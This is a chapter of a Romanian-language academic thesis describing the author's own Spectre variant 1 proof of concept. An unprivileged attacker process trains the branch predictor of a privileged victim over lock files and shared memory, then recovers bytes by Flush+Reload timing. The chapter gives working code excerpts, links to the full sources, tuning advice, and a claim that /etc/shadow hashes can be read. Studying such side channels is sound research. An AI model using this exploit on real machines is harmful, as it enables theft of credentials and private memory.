\chapter{POC -- Spectre-V1}
\label{cap:poc}

În lucrarea de cercetare în care este prezentată clasa de atacuri spectre și
variații ale acestora \cite{spectre2019}, este pusă la dispoziție și o 
implementare cu scop demonstrativ în care tehnicile descrise sunt utlizate
pentru a citi conținutul unui buffer din spațiul de memorie al procesului
în rulare. Victima și atacatorul sunt combinate astfel într-o singură entitate,
ceea ce rezultă într-un scenariu complet nerealist. În acest capitol voi descrie
o implementare personală și diferită în abordare a atacului, cu scopul de a ilustra
un scenariu mai realist în care această vulnerabilitate poate fi exploatată.

\section{Detalii de implementare}

\subsection{Scenariul}

Considerăm scenariul în care pe un sistem cu actualizările la zi, cu hardware
susceptibil variantei 1 a Spectre (am rulat testele pe computer-ul personal ce
rulează cu un procesor marca \emph{Intel} - generația a 8-a), rulează în mod
privilegiat un proces vulnerabil (\emph{victima}). Victima poate primi cereri
de la alte procese (\emph{clienți}), în urma cărora furnizează un rezultat prin
intermediul unei zone partajate de memorie, separată complet de orice zonă
privată din cadrul spațiului său de memorie. Un client comunică și se sincronizează
cu victima (pentru a evita \emph{race-condition-uri}) prin intermediul unor fișiere
uzuale și a unor fișiere de blocare (\emph{lock files}).

Voi demonstra cum, prin intermediul zonei de memorie partajată, un atacator poate 
obține date private din spațiul de memorie al victimei, folosind tehnici specifice
variantei 1 a clasei de atacuri Spectre \ref{sec:spectrev1}.

\subsection{Vulnerabilitatea}

În cadrul cererilor, atacatorul trimite victimei o mulțime de indici: $\{i_0,
i_1, \dots, i_n\}$. Pentru fiecare indice $i_k$, victima va prelua o valoare dintr-un
tablou static intern, \texttt{array1[i\_k]}. Va realiza apoi o serie de calcule
oarecare, pe baza unei valori din zona partajată cu clienții (\texttt{array2}),
aflată la o poziție proporțională cu \texttt{array1[i\_k]}.

Să considerăm secțiunea următoare de cod:

\begin{lstlisting}[language=c, caption=Secțiune vulnerabila din codul victimei]
unsigned int array1_size = 16;
uint8_t array1[16] = { 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16 };

void victim_function(size_t x) {
	static uint8_t temp = 0;  /* declararea statica previne optimizari neprevazute ale compilatorului */
	if (x < array1_size) {
    // calcule cu o valoare din array2 la indice proportional cu array1[x]
    temp &= array2[array1[x] * 512];
	}
}
\end{lstlisting}

Funcția \texttt{victim\_function} este apelată cu fiecare indice $i_k$ primit de
la atacator, transmis prin intemediul parametrului \texttt{x}. Se poate
observa verificarea \texttt{x < array1\_size} ce previne accesarea unor
poziții în afara limitelor tabloului. Astfel, codul poate fi considerat
sigur din punct de vedere software. În schimb, un atacator poate alege 
valorile într-un mod specific ce va determina schimbări la nivelul cache-ului,
măsurabile prin intermediul zonei partajate de memorie, care pot dezvălui 
informații secrete din spațiul victimei.

\subsubsection{Zona partajată}

Zona partajată de memorie este creată de către victimă și încărcată de către
atacator \textbf{doar cu drepturi de citire}, după cum urmează:

\begin{lstlisting}[language=c, caption=Maparea zonei partajate în atacator]
// mapare a zonei partajate în array2 (cache side channel)
int fd = open(shared_memory_name, O_RDONLY);
array2 = (uint8_t*)mmap(NULL, 256 * 512, PROT_READ, MAP_SHARED, fd, 0);
\end{lstlisting}

\subsection{Citirea unui byte}

În cadrul dezvoltării de aplicații, dezvoltatorii folosesc mecanisme de sicronizare și tehnici
specifice \emph{IPC} pentru transmiterea în siguranță și fară pierderi a datelor
de la client la server și invers. În cadrul acestui atac, atacatorul reușește
să citească date de la victimă cu mare precizie datorită utilizării acestor
tehinici.

\subsubsection{Pasul 1 - Preluarea lacătului}

Transmiterea datelor și procesarea acestora de către victimă au loc separat. 
Acest fapt este garantat prin utilizarea unor emph{lock files} \cite{file_locks},
care permit executarea unei secvențe de instrucțiuni numai când procesul în cauză
deține lacătul.

La pasul 1, atacatorul preia lacătul în felul următor:

\begin{lstlisting}[language=c, caption=Preluarea lacătului]
	locked = -1;
	while (locked != 0) {
		fd_lock = open(lock_file_name, O_CREAT);
		locked = flock(fd_lock, LOCK_EX);
	}
\end{lstlisting}

\subsubsection{Pasul 2 - Transmiterea informației}

Atacatorul transmite un set de indici pe care procesul victimă îi va folosi
pentru accesul datelor. Setul este împărțit într-un număr de $4$ runde. Fiecare
antrenare conține $7$ indici ce determină accesări în limitele tabloului
\texttt{array1} ce au ca scop antrenarea \emph{branch-predictor-ului} în
prezicerea primei ramuri și un indice ce produce o accesare \textbf{speculativă}
în afara \texttt{array1} a unei zone dorite de atacator.

\begin{lstlisting}[language=c, caption=Transmiterea datelor]
	f = fopen(index_file_name, "w");
	training_x = tries % array1_size;

	fprintf(f, "%d ", train_rounds * round_length);
	for (i = 0; i < train_rounds; ++i) {
		for (j = 0; j < round_length - 1; ++j) {
			fprintf(f, "%zu ", training_x); // indice de antrenament
		}
		fprintf(f, "%zu ", index); // indice de atac
	}
	fclose(f);
\end{lstlisting}

Alegerea indicelui de antrenament este importantă. Antrenarea în sine vă rezulta
într-un \emph{cache-hit} care corespunde valorii aferente indicelui de antrenare.
Această valoare poate fi determinată în prealabil și apoi ignorată în cadrul
etapei \emph{FLUSH \& RELOAD}.
	
Indicii sunt scriși într-un fișier "index.txt" la care victima are acces. Absența
ulterioară a acestuia va semnifica faptul că victima a terminat procesarea
datelor, fiind folosit de asemenea a un strat suplimentar de sincronizare.

\subsubsection{Pasul 3 - Flush și eliberarea lacătului}

Atacatorul eliberează zona partajată de memorie din cache pentru a putea urmări
schimbările determinate de acțiunile victimei. În final se eliberează lacătul pentru
a permite victimei să proceseze datele transmise.

\begin{lstlisting}[language=c, caption=Flush și eliberarea datelor]
	for (i = 0; i < 256; i++)
		_mm_clflush(&array2[i * 512]);  /* instructiunea clflush */

	// eliberarea lacatului
	unlink(lock_file_name);
	flock(fd_lock, LOCK_UN);
	close(fd_lock);
\end{lstlisting}


\subsubsection{Pasul 4 - Victima preia lacătul}

Asemănător cu atacatorul, pentru a începe executarea instrucțiunilor victima trebuie
să preia accesul asupra lacătului partajat.

\subsubsection{Pasul 5 - Victima procesează indicii primiți}

Victima preia datele transmise de atacator și, pe rând, execută codul vulnerabil cu fiecare
dintre indici. Această serie de instrucțiuni va determina introducerea în cache la un indice
corespunzător cu valoarea secretă a unei valori din zona de memorie partajată \texttt{array2}.

\begin{lstlisting}[language=c, caption=Executarea codului vulnerabil pentru indicii primiți,
									 escapeinside={(*}{*)}]
	for (int i = 0; i < no_items; ++i) {
		_mm_clflush(&array1_size); (*\label{code:poc_flush}*)
		for (volatile int z = 0; z < 100; z++) (*\label{code:poc_empty_for} *)
		victim_function(buffer[i]);
	}

	// stergerea fisierului "index.txt"
	fclose(f);
	remove(index_file_name);
\end{lstlisting}

Este important de menționat că succesul atacului depinde de câțiva factori
ilustrați în secvența de cod de mai sus. În primul rând, absența din cache a
variabilei \texttt{array1\_size} (i.e. linia \ref{code:poc_flush}) este
importantă pentru a facilita câștigarea \emph{race-condition-ului} la nivel
microarhitectural. În al doilea rând, o încărcare ridicată a sistemului rezultă
în acuratețe mai ridicată. Putem simula aceasta încărcare prin executarea unor
instrucțiuni în prealabil (i.e linia \ref{code:poc_empty_for}).

În final, se șterge fișierul cu date "index.txt" și se eliberează
lacătul, pentru a semnala finalul procesării cererii.

\subsubsection{Pasul 6 - Atacatorul finalizează FLUSH \& RELOAD}
\label{subsec:pas6}

Odată cu ștergerea fișierului "index.txt" de către victimă, atacatorul poate
finaliza atacul cu o tehnică specifică atacurilor asupra memoriei cache. În
implementarea de față am folosit tehnica \emph{FLUSH \& RELOAD}.

\begin{lstlisting}[language=c, escapeinside={(*}{*)}]
	addr = &array2[index * 512];
	time1 = __rdtscp(&junk);            /* citeste valoare din cronometru */
	junk = *addr; (*\label{code:junk_flush_reload}*)                      /* acceseaza memoria */
	time2 = __rdtscp(&junk) - time1;    /* calculeaza timpul scurs */
	if (time <= CACHE_HIT_THRESHOLD && index != array1[training_x])
		results[index]++;  /* cache hit - se adauga 1 la scor. */
		/* dupa mai multe repetari indicele cu scor
			 maxim este considerat rezultatul dorit */
\end{lstlisting}

Se măsoară timpul de acces pentru fiecare adresă corespunzătoare fiecăruia dintre
cei $256$ de bytes, iar valorile diferite de cea de antrenament și ai carori timpi
de acces sunt sub un prag stabilit anterior \texttt{CACHE\_HIT\_THRESHOLD} sunt 
marcați într-un tablou de rezultate.

\subsubsection{Citirea datelor secrete}

Repetarea pașilor 1-6 de multiple ori pentru aceeași zonă de memorie este necesară pentru a garanta
acuratețea, iar apoi repetarea și pentru alte zone de memorie rezultă în posibilitatea
citirii întregului spațiu de memorie al victimei.

\section{Rezultate}

Prin rularea procesului victimă în mod privilegiat, se pot citi și reține în
spațiul acestuia date sensibile precum hash-urile parolelor de sistem prezente
în fișierul \texttt{/etc/shadow}. În mod normal aceste date, chiar și încărcate,
sunt în siguranță datorită mecanismelor de separare a contextelor de execuție.
În schimb, în acest scenariu, prin intermediul tehnicilor ilustrate, atacatorul
\textbf{neprivilegiat} poate citi întreg spațiul de memorie al victimei, inclusiv
conținutul fișierului \texttt{/etc/shadow}.

Pentru a evita expunerea unor date sensibile în această lucrarea am ales să rulez atacul asupra unui fișier de configrare. Rezultatele se pot observa în captura de ecran
din figura \ref{fig:spectre_output}.

\begin{figure}[ht]
	\centering
	
\includegraphics[width=0.9\textwidth]{images/poc_rezultate.png}
	\caption{Configurația bootloader-ului extrasă cu spectre-v1}
\end{figure}
\label{fig:spectre_output}

Am reușit să obțin viteze de citire de până la $2.2$ kB / secundă. Codul
complet poate fi accesat la următoarele adrese:
\href{https://gist.github.com/Stefan-Radu/ca918598c9cce84429f566e020d93d15}{victima} \footnote[1]{accesibil la adresa https://gist.github.com/Stefan-Radu/ca918598c9cce84429f566e020d93d15},
	\href{https://gist.github.com/Stefan-Radu/29732c53a7d552fdec06fb46a801bd51}{atacator} \footnote[2]{accesibil la adresa https://gist.github.com/Stefan-Radu/29732c53a7d552fdec06fb46a801bd51}.


\section{Observații interesante}

Pe parcursul experimentelor am putut face multiple observații și am identificat
diverse elemente care au un rol important în succesul atacului.

\subsection{Pragul pentru determinarea cache-hit-rilor}
\label{subsec:threshold_tool}

Determinarea cache-hit-urilor în toate atacurile și experimentele descrise se
face pe baza unui prag stabilit anterior. Acesta depinde de mulți factori cum
ar fi hardware-ul pe care se rulează codul, și nivelul de încărcare al sistemului.

Pentru utlizarea unui prag cât mai potrivit în cadrul experimentelor am
realizat o unealtă care poate determina cu precizie mare un o valoare
potrivită. Ideea din spatele uneltei este rulearea unuia dintre atacurile
prezentate pe parcursul lucrării cu mai multe valori ale pragului și contorizarea
performantelor obținute. Ulterior, se realizează o medie ponderată a valorilor
obținute în funcție de performanța acestora.

Rulând această unealtă în diverse contexte am observat următorul rezultat
neașteptat. Apar diferențe de până la $20\%$ în cazul în care laptop-ul este 
conectat la o sursă de alimentare în comparație cu cazul în care rulează doar
pe baterie. Explicația ar fi aceea că pentru conservarea energiei când nu este
alimentat extern, se reduce viteza procesorului.

\subsection{Flag-uri de compilare și tipul variabilelor}

În funcție de tipul variabilelor declarate, sau flag-urile de optimizare
utilizate atacul pote rula cu succes, sau eșua total. Spre exemplu, utilizarea
unui tip de date non-static pentru variabila \texttt{junk} în cadrul
\emph{FLUSH \& RELOAD} (secțiunea \ref{subsec:pas6} linia
\ref{code:junk_flush_reload}) poate rezulta în eșecul atacului. Acest eșec
poate, în schimb, fi prevenit prin compilarea fie cu o versiune mai veche a
compilatorului (am testat cu gcc 5.3 care probabil aborda optimizările
diferit), sau cu un flag de compilare explicit (am avut succes cu \texttt{-O},
sau \texttt{-O1}).
